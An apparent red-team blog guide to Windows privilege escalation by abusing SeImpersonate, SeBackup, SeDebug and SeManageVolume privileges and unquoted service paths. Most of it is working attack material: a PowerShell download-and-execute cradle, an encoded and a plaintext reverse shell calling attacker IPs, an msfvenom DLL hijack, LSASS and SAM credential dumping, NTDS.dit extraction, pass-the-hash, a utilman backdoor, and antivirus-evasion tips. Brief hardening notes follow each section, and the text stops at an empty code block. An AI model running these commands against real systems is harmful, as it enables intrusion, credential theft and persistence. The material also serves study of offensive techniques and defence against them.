> Author : lineeralgebra
{:.prompt-tip}

## Windows Privilege Escalation Overview

Windows privilege escalation refers to the technique used by attackers (or penetration testers) to elevate their access level on a compromised Windows system. Typically, initial access is gained through a low-privileged user account—such as a standard user, a service account, or even a web application context. From there, the goal is to exploit misconfigurations, vulnerable services, weak permissions, or specific user rights (privileges) to achieve higher authority, most commonly **Administrator** or **NT AUTHORITY\SYSTEM** (the highest privilege level on a local machine).

This process is critical in red team operations, CTFs (Capture The Flag), and real-world attacks because many exploitation paths (like phishing, SQL injection, or web shell uploads) land you in a limited context. Escalation turns a foothold into full control—allowing actions like dumping credentials, installing persistence, lateral movement, or data exfiltration.

Common escalation vectors include:
- Abusing enabled privileges (e.g., `SeImpersonatePrivilege`, `SeBackupPrivilege`)
- Kernel exploits
- Misconfigured services (unquoted paths, weak service permissions)
- DLL hijacking
- Token manipulation
- Registry abuse (e.g., AlwaysInstallElevated)

In this guide, we’ll deep-dive into two powerful privileges: **`SeImpersonatePrivilege`** and **`SeBackupPrivilege`**, with real-world examples from CTFs, verification methods, exploitation techniques, and mitigation steps.

---

## SeImpersonatePrivilege – Deep Dive

### What is SeImpersonatePrivilege?

`SeImpersonatePrivilege` is a Windows user right that allows a process to **impersonate another user or security context after authentication**. It is granted by default to certain service accounts and high-integrity processes (like IIS, SQL Server, or any service running as LocalSystem or NetworkService).

> **Official Description**: "Impersonate a client after authentication"

This means:  
If your process has this privilege **and** it receives an authenticated token from a higher-privileged user (e.g., SYSTEM trying to access a resource via your service), you can **steal and reuse that token** to execute arbitrary code under that identity.

### Why Does It Exist & When Is It Enabled?

This privilege exists for legitimate purposes:
- Web servers (IIS) need to act on behalf of authenticated users
- Database servers (MSSQL) execute queries under user contexts
- DCOM/RPC services require delegation

It becomes **enabled by default** in scenarios like:
- Connecting to **MSSQL** using Windows Authentication (`-k` flag in Impacket)
- Running a web server (IIS, Apache with mod_asp, etc.)
- Any service using **NTLM authentication relay** or **token impersonation**

> **Real Example from CTFs**:  
When you connect to MSSQL using:
```bash
mssqlclient.py -k -no-pass lab.local -debug
```
And enable `xp_cmdshell`, then run:
```sql
EXEC xp_cmdshell 'whoami'
```
You often see `SeImpersonatePrivilege = Enabled` because the SQL Server service runs with this right to support linked servers and cross-database authentication.


Same applies when you get a **reverse shell via a web application** — the app pool identity usually has `SeImpersonatePrivilege`.


---

### Verifying SeImpersonatePrivilege

Before exploiting, always confirm the privilege is enabled.

#### Method 1: Native `whoami /priv`
```powershell
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
Look for `SeImpersonatePrivilege` → `Enabled`

#### Method 2: Cobalt Strike BOF (`whoami` or `privcheck`)
Use Beacon:
```bash
whoami bof
```
Or load custom BOFs like:
- https://github.com/mertdas/PrivKit




#### Method 3: Seatbelt (In-Memory Execution)
```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Seatbelt.exe TokenPrivileges
```
Output example:
```
[*] Token Privileges

    SeImpersonatePrivilege        Enabled
    SeCreateGlobalPrivilege       Enabled
    ...
```



> Seatbelt GitHub: https://github.com/Flangvik/SharpCollection

---

### Exploiting SeImpersonatePrivilege – The Potato Family

There are **many** tools that abuse `SeImpersonatePrivilege`. They all follow the same concept:
1. Trigger a system service to authenticate to your malicious endpoint
2. Capture the SYSTEM token
3. Impersonate it → Execute payload as SYSTEM

### The Potato Projects Cheat Sheet
https://jlajara.gitlab.io/Potatoes_Windows_Privesc

| Tool | Disk Touch | AV Evasion | Notes |
|------|------------|-----------|-------|
| JuicyPotato | Yes | Low | Old, works on Win7–Server 2016 |
| RoguePotato | No | Medium | Uses SOCKS proxy |
| SweetPotato | No | High | Translates CLSID abuse |
| GodPotato | No | Very High | Modern, stable |
| EfsPotato | Compile-on-target | **Best** | Zero disk, source compile |

---

#### Exploitation Method 1: GodPotato (Direct Loader)

If you have file write access and trust your loader:

```bash
execute-assembly /home/elliot/tools/godpotato.exe -cmd "C:\\Users\\potato\\Documents\\runner.exe"
```

This spawns `runner.exe` as **SYSTEM**.


---

#### Exploitation Method 2: SweetPotato (No Disk, Base64 PowerShell)

Perfect for OPSEC-conscious ops.

##### Step 1: Create `shell.ps1` on attacker machine
```powershell
iwr -usebasicparsing -uri http://192.168.1.8/a.ps1 | iex
```

##### Step 2: Encode in UTF-16LE + Base64
```bash
cat shell.ps1 | iconv -t UTF-16LE | base64 -w0
```
Output:
```
aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA4AC8AYQAuAHAAcwAxAHwAaQBlAHgACgA=
```

##### Step 3: Start HTTP Server
```bash
python3 -m http.server 80
```

##### Step 4: Execute SweetPotato
```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/SweetPotato.exe \
  -p C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe \
  -a "-w hidden -enc aQB3AHIAIAAtAHUAcwBlAGIAYQBzAGkAYwBwAGEAcgBzAGkAbgBnACAALQB1AHIAaQAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgA4AC8AYQAuAHAAcwAxAHwAaQBlAHgA"
```

Result: **SYSTEM shell** via downloaded `a.ps1`



### Bonus: EfsPotato – Ultimate AV Evasion

When EDR blocks all binaries, use **EfsPotato**.

> GitHub: https://github.com/zcgonvh/EfsPotato

#### Why It Works:
- Compiles **C# source directly on target** using `csc.exe`
- No precompiled `.exe` dropped → AV blind
- Uses EFSRPC abuse instead of traditional DCOM

#### Step-by-Step:

1. Upload `EfsPotato.cs` to `C:\temp\`
2. Compile in-memory:
```powershell
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe C:\temp\EfsPotato.cs -nowarn:1691,618
```
Creates `EfsPotato.exe` locally

3. Prepare encoded reverse shell (Base64 UTF-16LE):
```powershell
# Example reverse shell payload (encoded)
CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAMAAuADEAMAAuADEANAAuADIANgAnACwANAA0ADMAKQA7AAoAJABzACAAPQAgACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AAoAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAC4AUgBlAGEAZAAoACQAYgAsACAAMAAsACAAJABiAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewAKACAAIAAgACAAJABkACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIALAAwACwAIAAkAGkAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAGkAZQB4ACAAJABkACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7AAoAIAAgACAAIAAkAHMAYgAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBiACAAKwAgACcAcABzAD4AIAAnACkAOwAKACAAIAAgACAAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsACgAgACAAIAAgACQAcwAuAEYAbAB1AHMAaAAoACkACgB9ADsACgAkAGMALgBDAGwAbwBzAGUAKAApAAoA
```

4. Start listener:
```bash
nc -nvlp 443
```

5. Run:
```powershell
.\EfsPotato.exe 'powershell -exec bypass -enc [BASE64_PAYLOAD]'
```

Output:
```bash
connect to [10.10.14.26] from [10.10.11.24] 49851
ps> whoami
nt authority\system
```

---

#### Minimal Reverse Shell Template (for encoding)

```powershell
$myClient = New-Object System.Net.Sockets.TCPClient('10.10.14.26',443);
$myStream = $myClient.GetStream();
[byte[]]$myBuffer = 0..65535 | % {0};
while(($myRead = $myStream.Read($myBuffer,0,$myBuffer.Length)) -ne 0){
    $myData = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($myBuffer,0,$myRead);
    $mySendBack = (iex $myData 2>&1 | Out-String);
    $mySendBack2 = $mySendBack + 'ps> ';
    $mySendByte = ([text.encoding]::ASCII).GetBytes($mySendBack2);
    $myStream.Write($mySendByte,0,$mySendByte.Length);
    $myStream.Flush();
}
$myClient.Close()
```

Encode this with:
```bash
powershell -c "[IO.File]::ReadAllText('rev.ps1')" | iconv -t UTF-16LE | base64 -w0
```

---

### Disabling SeImpersonatePrivilege (Defense)

To reduce attack surface:

1. Open **Local Security Policy**:
   ```powershell
   secpol.msc
   ```

2. Navigate:
   ```
   Security Settings → Local Policies → User Rights Assignment
   ```

3. Find: **"Impersonate a client after authentication"**

4. Remove unnecessary accounts:
   - Only `Administrators`, `SERVICE`, `LOCAL SERVICE`, `NETWORK SERVICE` should have it
   - **Never grant to regular users**

> Use Group Policy in domains to enforce this.




## SeBackupPrivilege – Backup Your Way to SYSTEM

### What is SeBackupPrivilege?

Allows a user to:
- Read any file on the system (**bypassing ACLs**)
- Perform backup operations

Even if a file has `Deny` for your user, `SeBackupPrivilege` lets you open it with `FILE_FLAG_BACKUP_SEMANTICS`.

### Why Is It Dangerous?

With this privilege, you can:
- Steal `SAM`, `SYSTEM`, `NTDS.dit`
- Extract `registry hives` (`SOFTWARE`, `SECURITY`)
- Copy `lsass.exe` memory dumps
- Grab SSH keys, config files, databases

It’s essentially **read-any-file** + **backup API access**

### When Is It Granted?

Usually given to members of:
- **Backup Operators** group
- Custom backup service accounts

> In domain environments: Check via **BloodHound** → "User has SeBackupPrivilege"

---

### Verifying SeBackupPrivilege

#### Method 1: `whoami /priv`
```powershell
SeBackupPrivilege             Backup files and directories      Enabled
```




#### Method 2: BloodHound
Query:
```cypher
MATCH (u:User)-[:MemberOf]->(g:Group {name:"BACKUP OPERATORS@DOMAIN.LOCAL"})
RETURN u
```


#### Method 3: PowerView
```powershell
Get-NetGroupMember "Backup Operators"
```

---

### Next Steps After Confirmation

Once confirmed, you can:
1. Copy `SAM` + `SYSTEM` → crack passwords offline
2. Extract NTDS.dit (on DCs)
3. Use `robocopy` / `diskshadow` to copy protected files

## SeBackupPrivilege Attack – Full Exploitation Guide

Now that we’ve confirmed a user has `SeBackupPrivilege`, it’s time to **weaponize it**. This privilege is a goldmine because it lets you **bypass all file ACLs** and read *any* file on the system — including the holy trinity of Windows credential storage:

- `C:\Windows\System32\config\SAM`
- `C:\Windows\System32\config\SYSTEM`
- `C:\Windows\System32\config\SECURITY`

With these, you can extract **local account hashes**, **LSA secrets**, and even prepare for **pass-the-hash** or **DCSync** if domain-joined.

Let’s go from **verification → extraction → cracking → cleanup**, using multiple tools and techniques.

---

### Attack Method 1: NetExec (`nxc`) – The Easiest Way

> **Tool**: [NetExec](https://github.com/Pennyw0rth/NetExec) (formerly CrackMapExec)  
> **Module**: `backup_operator`

#### Why NetExec?
- One-liner
- Handles SMB, privilege check, and file extraction
- Works remotely
- Built-in hash dumping

##### Usage

```bash
nxc smb 192.168.1.10 -u samy -p 'StrongPassw0rd!' -M backup_operator
```


##### Sample Output

```
SMB         192.168.1.10    445    VALENOR-DC01     [+] lab.local\samy:StrongPassw0rd! (Pwn3d!)
SMB         192.168.1.10    445    VALENOR-DC01     [*] Checking SeBackupPrivilege...
SMB         192.168.1.10    445    VALENOR-DC01     [+] User has SeBackupPrivilege
SMB         192.168.1.10    445    VALENOR-DC01     [*] Copying SAM, SYSTEM, SECURITY to C:\Windows\Temp\...
SMB         192.168.1.10    445    VALENOR-DC01     [+] Files copied successfully
SMB         192.168.1.10    445    VALENOR-DC01     [*] Dumping hashes with secretsdump.py...
SMB         192.168.1.10    445    VALENOR-DC01     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.1.10    445    VALENOR-DC01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

> **Pro Tip**: Add `--local-auth` if targeting a standalone server.

---

### Attack Method 2: Cobalt Strike BOF – `BackupPrivSAM`

> **Repo**: https://github.com/m57/cobaltstrike_bofs  
> **BOF**: `BackupPrivSAM`

This is **in-memory**, **no disk touch**, and perfect when you already have a **Beacon**.

###### Syntax

```bash
BackupPrivSAM [\\\\computername] [save path] (optional: [domain] [username] [password])
```

##### Example (Domain Context)

```bash
backupPrivSAM \\\\VALENOR-DC01.lab.local C:\\ lab.local samy StrongPassw0rd!
```




##### What Happens?
1. Uses `SeBackupPrivilege` to open registry hives with backup semantics
2. Copies `SAM`, `SYSTEM`, `SECURITY` to `C:\`
3. No `robocopy`, no `diskshadow` — pure API calls

##### Download Files from Beacon

```bash
download C:\\SAM
download C:\\SYSTEM
download C:\\SECURITY
```

---

#### Dump Hashes with Mimikatz BOF (In-Beacon)

Why transfer files when you can **dump hashes directly in memory**?

##### Step 1: Enable Debug Privilege (required for LSA access)

```bash
mimikatz privilege::debug
```

##### Step 2: Dump SAM Hashes

```bash
mimikatz lsadump::sam /system:"C:\\SYSTEM" /sam:"C:\\SAM"
```

##### Output


```
* SAM Accounts for \\VALENOR-DC01

  RID  : 000001f4 (500)
  User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

  RID  : 000001f5 (501)
  User : Guest
```

> Now you can **pass-the-hash** with:
```bash
pth lab.local\Administrator 31d6cfe0d16ae931b73c59d7e0c089c0
```

---

### Manual Exploitation (No External Tools)

If you want **full control** and **OPSEC**, do it manually with PowerShell.

##### Step 1: Copy Registry Hives Using `robocopy`

```powershell
# Create temp dir
mkdir C:\temp_backup

# Copy with backup privilege
robocopy /B C:\Windows\System32\config C:\temp_backup SAM SYSTEM SECURITY
```

> `/B` = Backup mode → uses `SeBackupPrivilege`

##### Step 2: Download & Dump Locally

```bash
scp user@target:'C:/temp_backup/*' ./loot/
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
```

---

#### Bonus: DiskShadow – Stealthy NTDS.dit Extraction (Domain Controllers)

On **Domain Controllers**, `SeBackupPrivilege` lets you extract **NTDS.dit** (Active Directory database).

##### Script: `backup.txt`

```txt
set context persistent nowriters
set metadata C:\temp\metadata.cab
set verbose on
add volume C: alias systemvol
create
expose %systemvol% Z:
```

##### Execute

```powershell
diskshadow /s backup.txt
robocopy /B Z:\Windows\NTDS C:\temp_backup ntds.dit
```

Then download and extract with:
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL -outputfile dc_hashes
```

---

### Disabling SeBackupPrivilege – Defense & Hardening

##### Myth: "Just remove Backup Operators group"
> **Wrong!** You **cannot delete** the built-in `Backup Operators` group.

But you **can (and should)** remove users from it.



##### Correct Way to Disable

##### Option 1: Remove User from Group

```powershell
net localgroup "Backup Operators" samy /delete
```

#### Option 2: Deny via Local Security Policy

1. Run:
   ```powershell
   secpol.msc
   ```

2. Navigate:
   ```
   Security Settings → Local Policies → User Rights Assignment
   ```

3. Find:
   - **Back up files and directories** → `SeBackupPrivilege`
   - **Restore files and directories** → `SeRestorePrivilege`

4. **Remove**:
   - Any non-essential users
   - Service accounts unless required

> Only `Administrators` and `Backup Operators` (for legit backup software) should have it.

---

##### Final Check: Confirm Privilege Gone

```powershell
whoami /priv
```

Expected (no SeBackup):

```
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

> `SeBackupPrivilege` = **Gone**

---

##### Summary: SeBackupPrivilege Cheat Sheet

| Step | Command |
|------|---------|
| **Check** | `whoami /priv` \| `nxc -M backup_operator` |
| **Exploit (Remote)** | `nxc smb X.X.X.X -u user -p pass -M backup_operator` |
| **Exploit (Beacon)** | `backupPrivSAM \\\\host C:\\` → `mimikatz lsadump::sam` |
| **Manual Copy** | `robocopy /B` or `Copy-FileSeBackup` |
| **DC NTDS.dit** | `diskshadow` + `robocopy /B` |
| **Disable** | `net localgroup "Backup Operators" user /delete` |

---

**You now own the box — locally and (potentially) domain-wide.**

## SeDebugPrivilege – The Silent SYSTEM Killer

`SeDebugPrivilege` is one of the **most powerful and underrated** Windows privileges. It allows a process to **attach to and debug any other process** — including critical system processes like `lsass.exe`, `winlogon.exe`, or `svchost.exe`.

> **Official Name**: "Debug programs"  
> **Danger Level**: **Extreme** — Direct path to **NT AUTHORITY\SYSTEM** and **credential dumping**

If you have this privilege, you can:
- Dump `lsass.exe` → **all logged-on user credentials**
- Steal tokens from `SYSTEM` processes
- Inject into `winlogon.exe` → **instant SYSTEM shell**
- Bypass most EDR memory protection (if done carefully)

---

### Why Does SeDebugPrivilege Exist?

It was designed for **developers and administrators** to:
- Attach debuggers (Visual Studio, WinDbg)
- Analyze crashes
- Troubleshoot system services

By default, it’s granted to:
- **Administrators**
- Some service accounts (rarely)

> **Never** grant this to regular users or service accounts unless absolutely necessary.


### How to Check Who Has It (Defender View)

1. Press `Win + R` → type:
   ```powershell
   secpol.msc
   ```

2. Navigate:
   ```
   Local Policies → User Rights Assignment
   ```

3. Look for:
   > **Debug programs**

   Only `Administrators` should be listed.




### Verifying SeDebugPrivilege (On Target)

After getting a **Beacon**, **Meterpreter**, or **PowerShell session**, verify:

##### Method 1: `whoami /priv` (via BOF or shell)

```bash
whoami bof
```

Look for:
```
SeDebugPrivilege              Debug programs                 Enabled
```

##### Method 2: Seatbelt

```bash
execute-assembly /path/to/Seatbelt.exe TokenPrivileges
```




##### Attack #1: Procdump + LSASS Dump (Easy Win)

> **Tool**: [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) (Microsoft Sysinternals)  
> **Why it works**: Signed by Microsoft → **low EDR detection**


##### Step 1: Upload & Run

```bash
upload /home/elliot/tools/procdump.exe C:\Windows\Temp\procdump.exe

shell C:\Windows\Temp\procdump.exe -accepteula -ma lsass.exe C:\Windows\Temp\lsass.dmp
```



> `-ma` = full memory dump  
> `-accepteula` = auto-accept EULA

##### Step 2: Download & Extract Hashes

```bash
download C:\Windows\Temp\lsass.dmp ./loot/lsass.dmp
```

On attacker machine:
```bash
pypykatz lsa minidump lsass.dmp
```


**Output**:
```
FILE: lsass.dmp

[+] Found credentials:
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    user1:1105:aad3b435b51404eeaad3b435b51404ee:5e1a8c5d1f12e7e8f9a0b1c2d3e4f5a6:::
```

> Now you can **Pass-the-Hash** or **Overpass-the-Hash**

**OPSEC Note**: This leaves a **large dump file** on disk → not stealthy.

---

### Attack #2: `psgetsys` – Token Impersonation (No Disk, Pure PowerShell)

> **Tool**: [psgetsys.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/psgetsys.ps1)  
> **Goal**: Steal **SYSTEM token** from `winlogon.exe`

##### Step 1: Import Module

```bash
powershell-import /home/elliot/Valenor/WindowsPrivesc/psgetsystem/psgetsys.ps1
```

##### Step 2: Find `winlogon` PID

```bash
powerpick Get-Process winlogon
```


Output:
```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    285      12     3520       8920       0.swe  572   1 winlogon
```

##### Step 3: Impersonate & Spawn SYSTEM Shell

```bash
powerpick ImpersonateFromParentPid -ppid 572 -command "cmd.exe" -cmdargs "/c C:\\Users\\potato\\Documents\\runner.exe"
```


**Result**: Your `runner.exe` (or reverse shell) runs as **NT AUTHORITY\SYSTEM**

> No disk, no external tools → **High OPSEC**

---

#### Attack #3: Meterpreter Migration (Classic Red Team)

If you're in **Metasploit**:

##### Step 1: List Processes

```bash
meterpreter > ps | grep winlogon
```

```
  572  492   winlogon.exe  x64   1        NT AUTHORITY\SYSTEM  C:\Windows\System32\winlogon.exe
```

##### Step 2: Migrate

```bash
meterpreter > migrate 572
[*] Migrating from 3540 to 572...
[*] Migration completed successfully.
```

##### Step 3: Confirm

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**Done.** You are now SYSTEM.

---

### Bonus: In-Memory LSASS Dump (Zero Disk)

Use **SharpKatz** or **nanodump** for **no file on disk**.

##### Example: SharpKatz (Cobalt Strike)

```bash
execute-assembly /home/elliot/tools/SharpKatz.exe --lsass
```

Dumps credentials **directly in memory** → no `lsass.dmp` file.

---

### Defense: Disable SeDebugPrivilege

##### Never give it to:
- Service accounts
- Regular users
- Web/IIS/SQL accounts

##### Remove via Group Policy or Local Policy

1. `secpol.msc`
2. **Local Policies → User Rights Assignment**
3. **Debug programs**
4. Remove all except:
   - `Administrators` (if needed for debugging)

##### Monitor with Sysmon

```xml
<EventID>10</EventID>  <!-- Process Access -->
<SourceImage>*\procdump.exe</SourceImage>
<TargetImage>*\lsass.exe</TargetImage>
```

---

##### SeDebugPrivilege Cheat Sheet

| Goal | Tool | Disk? | OPSEC |
|------|------|-------|-------|
| LSASS Dump | `procdump -ma` | Yes | Low |
| SYSTEM Shell | `psgetsys` | No | High |
| Migrate | `meterpreter migrate` | No | Medium |
| In-Memory Dump | `SharpKatz` | No | Very High |

---

## SeManageVolumePrivilege – From Volume Maintenance to SYSTEM

`SeManageVolumePrivilege` is a **high-impact, low-noise** Windows privilege that allows a user to **perform raw volume maintenance tasks** — think `chkdsk`, `defrag`, or direct disk sector access. While intended for system administrators, it can be **abused to gain full control over the file system** and escalate to **NT AUTHORITY\SYSTEM**.

> **Official Name**: "Perform volume maintenance tasks"  
> **Danger Level**: **High** — Bypasses ACLs at the **volume level**  
> **Default Holders**: Only `Administrators`

---

##### Why Does SeManageVolumePrivilege Exist?

This privilege enables:
- **Disk defragmentation**
- **Volume shadow copy operations**
- **Raw disk access** (bypassing file system driver)
- **CHKDSK / disk repair**

It’s required for tools like:
- `chkdsk.exe`
- `defrag.exe`
- `vssadmin.exe`

> **Warning**: Never grant this to service accounts or regular users.

---

##### How to Check Who Has It (Defender Side)

1. Press `Win + R` → `secpol.msc`
2. Go to:
   ```
   Security Settings → Local Policies → User Rights Assignment
   ```
3. Find:
   > **Perform volume maintenance tasks**

Only `Administrators` should be listed.




### Verifying SeManageVolumePrivilege (On Target)

##### Method 1: `whoami /priv`

```powershell
whoami /priv | findstr SeManage
```


Look for:
```
SeManageVolumePrivilege       Perform volume maintenance tasks    Enabled
```

##### Method 2: Seatbelt

```bash
execute-assembly /path/to/Seatbelt.exe TokenPrivileges
```

---

### Attack: SeManageVolumeExploit → Full File System Control

> **Exploit**: https://github.com/CsEnox/SeManageVolumeExploit  
> **Goal**: Abuse volume maintenance to **modify any file’s ACLs**, even `C:\Windows\System32`

##### How It Works

The exploit uses `FSCTL_SET_INTEGRITY_INFORMATION` and `FSCTL_SET_OBJECT_ID` to:
1. Open a **volume handle** with `SeManageVolumePrivilege`
2. **Bypass file locks and ACLs**
3. **Take ownership** or **grant full control** to any file

---

##### Step-by-Step Exploitation

##### Step 1: Upload & Run Exploit

```bash
upload /home/elliot/tools/SeManageVolumeExploit.exe C:\Temp\SeManageVolumeExploit.exe

shell C:\Temp\SeManageVolumeExploit.exe
```

> This grants your user **full control over `C:\Windows`**

##### Step 2: Verify ACL Change

```bash
C:\Temp> icacls C:\Windows
```


**Before**:
```
NT AUTHORITY\SYSTEM:(OI)(CI)(F)
BUILTIN\Administrators:(OI)(CI)(F)
```

**After exploit**:
```
lab.local\samy:(OI)(CI)(F)   <--- You now have full control!
```

---

##### Step 3: DLL Hijacking via `systeminfo` (SYSTEM Shell)

`systeminfo.exe` loads `tzres.dll` from:
```
C:\Windows\System32\wbem\
```

This path is **writable** if you have `SeManageVolumePrivilege` + ACL control.

##### Create Malicious DLL


or

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.8 LPORT=4444 -f dll -o tzres.dll
```

##### Copy to Hijack Path

```bash
copy .\tzres.dll C:\Windows\System32\wbem\tzres.dll
```


##### Trigger Execution

```bash
systeminfo
```

> `systeminfo.exe` runs as **SYSTEM** → loads your DLL → **SYSTEM reverse shell**

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.1.8] from (UNKNOWN) [10.10.11.24] 49678
Microsoft Windows [Version 10.0.19045.3803]

C:\Windows\system32> whoami
nt authority\system
```

---

##### Alternative: Direct Privilege Escalation (No DLL)

Once you have **full control over `C:\Windows\System32`**, you can:
- Replace `utilman.exe` → `cmd.exe` (Winlogon trick)
- Modify `sethc.exe` → Sticky Keys
- Overwrite `Magnify.exe`

##### Example: Utilman.exe Backdoor

```bash
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```

Lock screen → `Win + U` → **SYSTEM CMD**

---

##### OPSEC Tips

| Action | Risk | Mitigation |
|-------|------|------------|
| `SeManageVolumeExploit.exe` | High (file drop) | Use `execute-assembly` with in-memory version |
| `tzres.dll` | Medium | Encode + staged loader |
| `systeminfo` | Low | Normal admin behavior |

---

##### Defense: Lock Down SeManageVolumePrivilege

##### 1. **Never** assign to:
- Service accounts
- Web/SQL users
- Backup operators

##### 2. Remove via `secpol.msc`
```
Local Policies → User Rights Assignment → Perform volume maintenance tasks
→ Remove all except Administrators
```

##### 3. Monitor with Sysmon

```xml
<RuleGroup name="" groupRelation="or">
  <ProcessCreate onmatch="include">
    <Image condition="contains">SeManageVolumeExploit</Image>
  </ProcessCreate>
  <FileCreate onmatch="include">
    <TargetFilename condition="contains">wbem\tzres.dll</TargetFilename>
  </FileCreate>
</RuleGroup>
```

---

##### SeManageVolumePrivilege Cheat Sheet

| Step | Command |
|------|---------|
| **Verify** | `whoami /priv \| findstr SeManage` |
| **Exploit** | `SeManageVolumeExploit.exe` |
| **Check ACL** | `icacls C:\Windows` |
| **Make DLL** | `msfvenom -p windows/x64/shell_reverse_tcp ... -o tzres.dll` |
| **Hijack** | `copy tzres.dll C:\Windows\System32\wbem\` |
| **Trigger** | `systeminfo` → **SYSTEM shell** |

---

## Unquoted Service Path – The Classic "Human Error" Privesc

`Unquoted Service Path` is **one of the most common, reliable, and hilarious** privilege escalation vectors in Windows pentesting. Why?

- It’s **100% configuration mistake** — no exploit, no zero-day
- Works on **every Windows version**
- **Bypasses AV/EDR** if you use legit binaries or simple C
- **Silent & persistent** — runs at boot

> **Fun Fact**: Microsoft still hasn’t fixed the parser logic. It’s been exploitable since **Windows NT**.

---

##### How Unquoted Service Paths Happen

When a service’s `ImagePath` contains **spaces but no quotes**, Windows parses it **left-to-right** trying to execute:

```text
C:\Program Files\Vulnerable Service\Service.exe
```

→ Windows tries:
1. `C:\Program.exe`
2. `C:\Program Files\Vulnerable.exe`
3. `C:\Program Files\Vulnerable Service\Service.exe` (real one)

If **you control any intermediate path** and have **write permission**, you drop a malicious executable → **SYSTEM execution**.

---

##### Lab Setup (Reproduce in 2 Minutes)

```powershell
# 1. Create directory
cd 'C:\Program Files'
mkdir 'Vulnerable Service1'

# 2. Copy cmd.exe (or your payload)
copy C:\Windows\System32\cmd.exe 'C:\Program Files\Vulnerable Service1\'

# 3. Grant write to Users
icacls "C:\Program Files\Vulnerable Service1" /grant "BUILTIN\Users:(OI)(CI)W"

# 4. Create service with UNQUOTED path
New-Service -Name "Vulnerable Service 1" `
  -BinaryPathName "C:\Program Files\Vulnerable Service1\Service 1.exe" `
  -StartupType Automatic

# 5. Allow service modify (optional, for realism)
cmd /c 'sc sdset "Vulnerable Service 1" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

**Result**: Service starts → tries `C:\Program.exe` → **you own it**.

---

### Verification Methods (From Beacon or Shell)

##### Method 1: PrivKit BOF (Cobalt Strike)

> https://github.com/mertdas/PrivKit

```bash
privcheck
```


Output:
```
[+] Unquoted Service Paths:
    Service Name: Vulnerable Service 1
    Path: C:\Program Files\Vulnerable Service1\Service 1.exe
    Writable: Yes (Users)
```

---

##### Method 2: SharpUp (In-Memory)

> https://github.com/Flangvik/SharpCollection

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/SharpUp.exe audit
```

Or just:
```bash
execute-assembly /home/elliot/tools/SharpUp.exe UnquotedServicePath
```


---

##### Method 3: Manual WMIC (Native)

```cmd
wmic service get name,pathname,startmode ^
  | findstr /i "Auto" ^
  | findstr /i /v "C:\\Windows\\" ^
  | findstr /i /v "\""
```

**Filters**:
- `Auto` → auto-start
- Exclude `C:\Windows\` → legit paths
- Exclude `"` → unquoted only

---

##### Method 4: `sc qc` + `icacls`

```cmd
sc qc "Vulnerable Service 1"
```

```
BINARY_PATH_NAME   : C:\Program Files\Vulnerable Service1\Service 1.exe
```

```cmd
